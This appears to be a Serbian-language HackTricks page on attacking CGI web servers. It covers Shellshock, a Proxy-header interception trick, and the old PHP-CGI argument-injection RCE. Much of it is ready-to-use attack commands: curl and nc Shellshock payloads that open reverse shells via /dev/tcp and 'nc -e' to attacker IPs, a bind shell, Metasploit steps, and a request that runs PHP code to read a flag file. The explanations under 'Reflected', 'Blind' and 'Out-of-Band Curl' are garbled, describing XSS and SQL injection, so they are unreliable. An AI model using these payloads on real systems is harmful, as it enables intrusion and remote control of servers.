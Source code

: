 # CGI

<details>

<summary><strong>Naučite hakovanje AWS-a od nule do heroja sa</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Drugi načini podrške HackTricks-u:

* Ako želite da vidite **vašu kompaniju reklamiranu na HackTricks-u** ili **preuzmete HackTricks u PDF formatu** proverite [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Nabavite [**zvanični PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Otkrijte [**The PEASS Family**](https://opensea.io/collection/the-peass-family), našu kolekciju ekskluzivnih [**NFT-ova**](https://opensea.io/collection/the-peass-family)
* **Pridružite se** 💬 [**Discord grupi**](https://discord.gg/hRep4RUj7f) ili [**telegram grupi**](https://t.me/peass) ili nas **pratite** na **Twitter-u** 🐦 [**@carlospolopm**](https://twitter.com/hacktricks\_live)**.**
* **Podelite svoje hakovanje trikove slanjem PR-ova na** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repozitorijume.

</details>

## Informacije

**CGI skripte su perl skripte**, pa ako ste kompromitovali server koji može izvršavati _**.cgi**_ skripte, možete **upload-ovati perl reverse shell** (`/usr/share/webshells/perl/perl-reverse-shell.pl`), **promeniti ekstenziju** iz **.pl** u **.cgi**, dati **dozvole za izvršavanje** (`chmod +x`) i **pristupiti** reverse shell-u **iz web pregledača** da ga izvršite. Da biste testirali **CGI ranjivosti**, preporučuje se korišćenje `nikto -C all` (i sve dodatke)

## **ShellShock**

**ShellShock** je **ranjivost** koja utiče na široko korišćeni **Bash** komandni shell u Unix baziranim operativnim sistemima. Cilja sposobnost Basha da izvršava komande koje aplikacije prosleđuju. Ranjivost leži u manipulaciji **okruženjskim promenljivama**, koje su dinamički nazvane vrednosti koje utiču na način izvršavanja procesa na računaru. Napadači mogu iskoristiti ovo tako što pridružuju **zlonameran kod** okruženjskim promenljivama, koji se izvršava prilikom prijema promenljive. Ovo omogućava napadačima da potencijalno kompromituju sistem.

Iskorišćavanjem ove ranjivosti, **stranica može prikazati grešku**.

Možete **pronaći** ovu ranjivost primetivši da koristi **stariju verziju Apache-a** i **cgi\_mod** (sa cgi folderom) ili korišćenjem **nikto-a**.

### **Test**

Većina testova se zasniva na ispisivanju nečega i očekivanju da se taj string vrati u web odgovoru. Ako mislite da je neka stranica ranjiva, potražite sve cgi stranice i testirajte ih.

**Nmap**

```bash
nmap 10.2.1.31 -p 80 --script=http-shellshock --script-args uri=/cgi-bin/admin.cgi
```

### **Curl (reflektovano, slepo i van opsega)**

***

#### **Reflected Curl**

Reflektovani Curl je tehnika koja se koristi za otkrivanje ranjivosti reflektovanih XSS napada u aplikacijama. Ova tehnika uključuje slanje HTTP zahteva koji sadrže zlonamerni kod koji se reflektuje nazad na korisnika. Kada se korisnik izloži ovom zlonamernom kodu, napadač može izvršiti različite vrste napada, uključujući krađu kolačića ili preusmeravanje na zlonamerni sajt.

***

#### **Blind Curl**

Slepi Curl je tehnika koja se koristi za otkrivanje ranjivosti slepih SQL injekcija u aplikacijama. Ova tehnika uključuje slanje HTTP zahteva koji sadrže SQL upit koji se izvršava na serverskoj strani. Međutim, umesto da se rezultati upita prikažu korisniku, napadač koristi slepe tehnike za dobijanje informacija o bazi podataka. Ovo može uključivati izvršavanje upita koji vraćaju tačne ili netačne rezultate, kao i izvršavanje upita koji izazivaju odgovor sa kašnjenjem.

***

#### **Out-of-Band Curl**

Curl van opsega je tehnika koja se koristi za otkrivanje ranjivosti koje omogućavaju napadaču da komunicira sa spoljnim serverom izvan ciljne mreže. Ova tehnika uključuje slanje HTTP zahteva koji sadrže zlonamerni kod koji izaziva komunikaciju sa spoljnim serverom. Napadač može iskoristiti ovu komunikaciju za izvršavanje različitih vrsta napada, kao što su preuzimanje osetljivih podataka ili izvršavanje zlonamernih operacija na ciljnom sistemu.

```bash
# Reflected
curl -H 'User-Agent: () { :; }; echo "VULNERABLE TO SHELLSHOCK"' http://10.1.2.32/cgi-bin/admin.cgi 2>/dev/null| grep 'VULNERABLE'
# Blind with sleep (you could also make a ping or web request to yourself and monitor that oth tcpdump)
curl -H 'User-Agent: () { :; }; /bin/bash -c "sleep 5"' http://10.11.2.12/cgi-bin/admin.cgi
# Out-Of-Band Use Cookie as alternative to User-Agent
curl -H 'Cookie: () { :;}; /bin/bash -i >& /dev/tcp/10.10.10.10/4242 0>&1' http://10.10.10.10/cgi-bin/user.sh
```

[**Shellsocker**](https://github.com/liamim/shellshocker)

```bash
python shellshocker.py http://10.11.1.71/cgi-bin/admin.cgi
```

### Iskorišćavanje ranjivosti

#### Remote Command Execution (RCE)

Ranjivosti u CGI skriptama često omogućavaju izvršavanje udaljenih komandi na serveru. Ova vrsta ranjivosti se naziva Remote Command Execution (RCE). Kada se ova ranjivost iskoristi, napadač može izvršavati proizvoljne komande na serveru.

Da biste iskoristili ovu ranjivost, prvo morate pronaći CGI skriptu koja je ranjiva. Zatim, trebate identifikovati način na koji se korisnički unos prosleđuje skripti. Ovo može biti putem URL parametara, HTTP zaglavlja ili formi. Nakon što identifikujete način prosleđivanja korisničkog unosa, možete pokušati ubaciti komandu koju želite izvršiti.

Na primer, ako je CGI skripta ranjiva i korisnički unos se prosleđuje putem URL parametara, možete pokušati ubaciti komandu u URL parametar. Na taj način, kada se skripta izvrši, vaša komanda će biti izvršena na serveru.

Evo primera URL parametra koji bi mogao biti iskorišćen za RCE:

```
http://example.com/cgi-bin/script.cgi?param=;ls
```

U ovom primeru, komanda `ls` će biti izvršena na serveru. Napadač može koristiti ovu tehniku za izvršavanje bilo koje komande koju želi, uključujući i one koje mogu dovesti do daljeg kompromitovanja sistema.

Važno je napomenuti da je iskorišćavanje RCE ranjivosti nelegalno i može imati ozbiljne pravne posledice. Ove informacije su namenjene samo u edukativne svrhe i ne treba ih koristiti za neovlašćene aktivnosti.

```bash
#Bind Shell
$ echo -e "HEAD /cgi-bin/status HTTP/1.1\r\nUser-Agent: () { :;}; /usr/bin/nc -l -p 9999 -e /bin/sh\r\nHost: vulnerable\r\nConnection: close\r\n\r\n" | nc vulnerable 8
#Reverse shell
$ echo -e "HEAD /cgi-bin/status HTTP/1.1\r\nUser-Agent: () { :;}; /usr/bin/nc 192.168.159.1 443 -e /bin/sh\r\nHost: vulnerable\r\nConnection: close\r\n\r\n" | nc vulnerable 80
#Reverse shell using curl
curl -H 'User-Agent: () { :; }; /bin/bash -i >& /dev/tcp/10.11.0.41/80 0>&1' http://10.1.2.11/cgi-bin/admin.cgi
#Reverse shell using metasploit
> use multi/http/apache_mod_cgi_bash_env_exec
> set targeturi /cgi-bin/admin.cgi
> set rhosts 10.1.2.11
> run
```

## **Proxy (MitM zahtevi web serveru)**

CGI kreira okruženjsku promenljivu za svaki zaglavlje u HTTP zahtevu. Na primer: "host:web.com" se kreira kao "HTTP\_HOST"="web.com"

Pošto se HTTP\_PROXY promenljiva može koristiti od strane web servera, pokušajte da pošaljete **zaglavlje** koje sadrži: "**Proxy: \<IP\_napadača>:\<PORT>**" i ako server izvrši bilo koji zahtev tokom sesije, bićete u mogućnosti da uhvatite svaki zahtev koji je server napravio.

## Stari PHP + CGI = RCE (CVE-2012-1823, CVE-2012-2311)

U osnovi, ako je cgi aktivan i php je "star" (<5.3.12 / < 5.4.2) možete izvršiti kod. Da biste iskoristili ovu ranjivost, morate pristupiti nekom PHP fajlu web servera bez slanja parametara (posebno bez slanja karaktera "="). Zatim, kako biste testirali ovu ranjivost, možete pristupiti na primer `/index.php?-s` (primetite `-s`) i **izvorni kod aplikacije će se pojaviti u odgovoru**.

Zatim, kako biste dobili **RCE**, možete poslati ovaj poseban upit: `/?-d allow_url_include=1 -d auto_prepend_file=php://input` i **PHP kod** koji će biti izvršen u **telo zahteva. Primer:**

```bash
curl -i --data-binary "<?php system(\"cat /flag.txt \") ?>" "http://jh2i.com:50008/?-d+allow_url_include%3d1+-d+auto_prepend_file%3dphp://input"
```

**Više informacija o ranjivosti i mogućim eksploatacijama:** [**https://www.zero-day.cz/database/337/**](https://www.zero-day.cz/database/337/)**,** [**cve-2012-1823**](https://cve.mitre.org/cgi-bin/cvename.cgi?name=cve-2012-1823)**,** [**cve-2012-2311**](https://cve.mitre.org/cgi-bin/cvename.cgi?name=cve-2012-2311)**,** [**CTF Writeup Primer**](https://github.com/W3rni0/HacktivityCon\_CTF\_2020#gi-joe)**.**

<details>

<summary><strong>Naučite hakovanje AWS-a od nule do heroja sa</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Drugi načini podrške HackTricks-u:

* Ako želite da vidite **vašu kompaniju oglašenu na HackTricks-u** ili **preuzmete HackTricks u PDF formatu** Pogledajte [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Nabavite [**zvanični PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Otkrijte [**The PEASS Family**](https://opensea.io/collection/the-peass-family), našu kolekciju ekskluzivnih [**NFT-ova**](https://opensea.io/collection/the-peass-family)
* **Pridružite se** 💬 [**Discord grupi**](https://discord.gg/hRep4RUj7f) ili [**telegram grupi**](https://t.me/peass) ili nas **pratite** na **Twitter-u** 🐦 [**@carlospolopm**](https://twitter.com/hacktricks\_live)**.**
* **Podelite svoje hakovanje trikove slanjem PR-ova na** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repozitorijume.

</details>
